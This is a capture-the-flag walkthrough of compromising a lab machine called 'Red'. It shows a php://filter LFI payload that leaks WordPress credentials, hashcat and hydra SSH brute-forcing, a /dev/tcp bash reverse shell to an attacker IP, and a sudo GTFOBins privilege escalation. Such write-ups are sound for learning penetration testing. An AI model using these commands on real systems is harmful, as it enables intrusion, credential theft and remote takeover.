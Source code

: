 # Red1
**IP: 10.0.4.7**
<br>
First of all, I did an `nmap` scan and found that there were two open ports:<br>
> 80 _apache_ <br>
> 22 _ssh_

The site looks pretty simple. But I found some things in `robots.txt`<br>

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://redrocks.win/wp-sitemap.xml
```
I went to the sitemap and found that there was a user named:
administrator

Checked it on the admin-login page and looks like it works.
<br>
Going to the site we know that there is a backdoor. The hacker said so.
<br>
Let's look for backdoors. We have a good wordlist with backdoor names in seclists.<br>
`gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
Looks like we found one:<br>
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```
There is nothing if we go there. Therefore, we can try to put different requests like:<br>
`/NetworkFileManagerPHP.php?search=qwe`<br>
We can use `wfuzz` to do it.<br>
```
wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/share/wfuzz/wordlist/general/big.txt --hh 00
```
We will find that the word `key` works.<br>
Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.

We know that this is a WordPress site. Also, we know that WordPress sites have wp-config.php file where there is a lot of interesting information. If we try to access it we won't see it since our browser automatically translates php code. However, we can find a PHP base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings 
Here is an example:<br>
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
Modify it for ourselves:<br>
```
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
It will give us a base64 string which we can decode and get the original wp-config.php code.<br>
Here is an interesting piece of code:<br>
```
...
/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
...
```
We know that there is an open _ssh_ port. If we try to use these credentials to _ssh_ it does not work.<br>
Also, we know that there is a backdoor file. Let's download it and see what it looks like.<br>
`http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php`<br>
Got a piece of code with another base64 line that says:<br>
`That password alone won't help you! Hashcat says rules are rules`<br>
And this is kind of a hint.<br>
We know that `hashcat` is a tool for password brute-forcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need to get acquainted with password-cracking rules._ Also, we can make an assumption that the rule is best64 since our hint was encoded in base64.<br>
We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt`, and generate a custom wordlist with `hashcat` and a rule called `best64`.<br>
Our command will look like this:<br>
```
hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
```
Now, we have got our custom wordlist. Let's try to brute-force into `ssh`.<br>
```hydra -l john -P custom_wordlist.txt ssh://10.0.4.7```
> [22][ssh] host: 10.0.4.7   login: john   password: R3v_m4lwh3r3_k1nG!!02<br>
Looks like it worked.<br>

When we try to use `cat` command it runs `vi`, but when we use `vi` it runs `cat`.<br>
We can see that there are three users:<br>
> ippsec<br>
> john <br>
> oxdf <br>

After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicked us out. The same password does not work, but we can brute force it again.<br>

### Upgrading our shell so we do not get kicked out.
1. Start a nc listener. `nc -lvnp 4444`
2. Run a simple reverse-shell on the victim machine. `bash -i >& /dev/tcp/10.0.4.4/4444 0>&1`
3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` in our new reverse-shell.
4. *ctrl-z*
5. `stty raw -echo; fg`
9. `export TERM=xterm`
So now we have our new shell. Let's look at how we can escalate our privileges.<br>
The simplest way is to run `sudo -l` <br> 
```
User john may run the following commands on red:
    (ippsec) NOPASSWD: /usr/bin/time
```
This is what we got.
Go to https://gtfobins.github.io/gtfobins and find what we can do with /usr/bin/time.<br>
`sudo /usr/bin/time /bin/sh`<br>
However, by default sudo will try to run a tool with the privileges of the root user, but we have only privileges of ippsec, so we need to specify our user, so our command will look like:<br>
`sudo -u ippsec /usr/bin/time /bin/sh`<br>
_It is better to escalate our privileges to *ippsec* before we upgrade our shell_<br>
Let's look can we escalate our privileges to root.<br>
I used the next command to find all the folders where I have permission to write.<br>
`find / -writable -type d 2>/dev/null`<br>
It gave a couple of them, but the interesting one for me was:<br>
> /var/www/wordpress/.git 

If we go there, there are two files owned by root.<br>
I assume that the root user runs the _rev_ file occasionally. But let's look at the processes to make sure.<br>
I am going to use pspy64s to look at the processes. https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64s.
I downloaded it to my machine, started the Python HTTP server, and downloaded it to the victim's machine.<br>
For some reason, it says that there is no storage left and I cannot download anything to the machine. However, the only thing that I had to do was replace the rev script with my own which I had permission to do. My own script would be a simple reverse shell coded in C. After root would run the rev script again I would get my root reverse-shell.









